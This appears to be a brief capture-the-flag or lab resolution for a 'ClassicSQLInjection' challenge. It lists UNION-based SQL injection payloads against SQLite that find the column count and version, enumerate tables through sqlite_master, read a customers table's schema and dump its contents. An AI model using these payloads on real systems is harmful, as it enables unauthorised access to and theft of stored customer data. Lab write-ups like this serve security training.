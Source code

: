 # ClassicSQLInjection

## Resolution

1. Find the number of columns queried.

```
'UNION SELECT sqlite_version(); --
'UNION SELECT 1,2,3,4,sqlite_version(); --
```

Gathered version: 3.41.1 

2. Find tables on the application

```
' UNION SELECT 1,2,3,4,tbl_name FROM sqlite_master WHERE type='table'; -- 
```

3. Find columns

```
' UNION SELECT 1,2,3,4,sql FROM sqlite_master WHERE name = 'customers'; --
```

4. Dump content from column 
```
' UNION SELECT 1,2,3,4,group_concat(name, '-') FROM customers;
```
